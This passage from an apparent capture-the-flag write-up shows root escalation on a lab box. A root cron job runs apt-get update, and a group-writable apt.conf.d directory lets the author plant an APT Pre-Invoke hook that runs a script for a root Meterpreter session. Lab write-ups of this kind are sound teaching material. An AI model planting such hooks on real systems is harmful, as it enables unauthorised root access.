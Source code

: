 ### John Enumeration

Now, we finally can try to escalate to root.  Inspecting processes with pspy64 you can see that periodically, the box is running `apt-get update`:
```Awk
2021/12/11 14:30:01 CMD: UID=0    PID=378422 | /bin/sh -c /usr/bin/apt-get update
2021/12/11 14:30:01 CMD: UID=0    PID=378421 | /usr/bin/cp -r /root/.scripts/writer2_project /var/www/
2021/12/11 14:30:01 CMD: UID=0    PID=378420 | /usr/bin/find /etc/apt/apt.conf.d/ -mtime -1 -exec rm {} ;
2021/12/11 14:30:01 CMD: UID=???  PID=378419 | ???
2021/12/11 14:30:01 CMD: UID=0    PID=378423 | /usr/bin/find /etc/apt/apt.conf.d/ -mtime -1 -exec rm {} ;
2021/12/11 14:30:01 CMD: UID=0    PID=378424 | /usr/bin/dpkg --print-foreign-architectures
2021/12/11 14:30:01 CMD: UID=0    PID=378425 | /usr/lib/apt/methods/http
2021/12/11 14:30:01 CMD: UID=0    PID=378426 | /usr/bin/apt-get update
2021/12/11 14:30:02 CMD: UID=33   PID=378427 | python3 manage.py runserver 127.0.0.1:8080
```

In addition, it is also removing all apt configuration files with a modification time of a day.  I guess this is supposed to prevent us from adding in our own configuration file to do what we want.  Looking at the groups john is a member of, we see we are also in the `management` group:
```Awk
john@writer:~$ cat /etc/group | grep john
john:x:1001:
management:x:1003:john
```

Let's look at the apt configuration directory:
```Awk
john@writer:~$ ls -al /etc/apt/apt.conf.d
total 48
drwxrwxr-x 2 root management 4096 Dec 11 14:29 .
drwxr-xr-x 7 root root       4096 Jul  9 10:59 ..
-rw-r--r-- 1 root root        630 Apr  9  2020 01autoremove
-rw-r--r-- 1 root root         92 Apr  9  2020 01-vendor-ubuntu
-rw-r--r-- 1 root root        129 Dec  4  2020 10periodic
-rw-r--r-- 1 root root        108 Dec  4  2020 15update-stamp
-rw-r--r-- 1 root root         85 Dec  4  2020 20archive
-rw-r--r-- 1 root root       1040 Sep 23  2020 20packagekit
-rw-r--r-- 1 root root        114 Nov 19  2020 20snapd.conf
-rw-r--r-- 1 root root        625 Oct  7  2019 50command-not-found
-rw-r--r-- 1 root root        182 Aug  3  2019 70debconf
-rw-r--r-- 1 root root        305 Dec  4  2020 99update-notifier
```

It looks like we cannot remove the files in the directory, but we can add our own files. 

### Gaining Root

So after some quick research, we can create a file with the following contents to execute our script to give as another Meterpreter session as root:
```Awk
john@writer:/etc/apt/apt.conf.d$ cat 02Update
APT::Update::Pre-Invoke {"/tmp/.tempdir/script.sh"};
```
